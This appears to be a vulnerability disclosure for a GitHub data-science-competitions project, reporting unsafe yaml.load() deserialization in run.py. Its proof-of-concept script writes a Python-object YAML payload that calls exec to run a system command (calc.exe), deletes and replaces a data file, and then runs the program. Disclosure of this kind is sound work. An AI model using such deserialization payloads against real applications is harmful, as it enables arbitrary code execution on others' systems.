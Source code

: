 ## ✍️ Description
A collection of popular Data Science Challenges/Competitions || Countdown timers to keep track of the entry deadlines.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
```
# vulnerable part of code
yaml.load() in run.py is responsible for code execution.
https://github.com/iphysresearch/DataSciComp/blob/master/run.py#L46
```
```python
# exploit.py
import os
os.system("git clone https://github.com/iphysresearch/DataSciComp.git")
os.chdir("DataSciComp/_data/")
payload = """title: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
os.system("rm _effective_kaggle.yaml")
open("_effective_kaggle.yaml","w+").write(payload)
os.chdir("../")
print(os.getcwd())
os.system("python3 run.py")
```
![](https://user-images.githubusercontent.com/43377443/105618821-b6d80f00-5e11-11eb-8a2c-b259cae61cd8.PNG)
